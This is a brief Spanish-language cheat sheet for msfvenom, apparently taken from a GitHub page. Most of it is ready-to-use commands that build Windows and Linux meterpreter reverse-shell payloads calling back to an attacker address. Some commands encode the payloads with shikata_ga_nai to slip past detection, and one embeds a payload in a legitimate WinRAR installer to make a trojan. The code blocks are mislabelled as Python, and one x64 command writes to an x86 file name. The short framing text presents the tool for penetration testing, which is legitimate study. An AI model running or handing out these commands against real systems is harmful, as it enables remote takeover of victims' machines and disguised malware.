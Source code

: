 ### MSFVENOM
Es una herramienta de la suite de Metasploit Framework que se utiliza para generar payloads (cargas útiles) de código malicioso. Estas cargas útiles pueden ser utilizadas en exploits y ataques cibernéticos con fines de pruebas de penetración o seguridad. msfvenom permite personalizar y crear payloads específicos para diferentes escenarios y objetivos, incluyendo la infección de sistemas con malware o la explotación de vulnerabilidades conocidas.

#### Windows

```python
msfvenom -a x86 -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > payloadx86.exe
msfvenom -a x64 -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f exe > payloadx86.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe > encodedx86.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f exe -k -x /Downloads/winrar32.exe > winra.exe
```

#### Linux

```python
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f elf > payloadx86
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -f elf > payloadx64
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.10.5 LPORT=1234 -i 10 -e x86/shikata_ga_nai -f elf > encodedx86
```
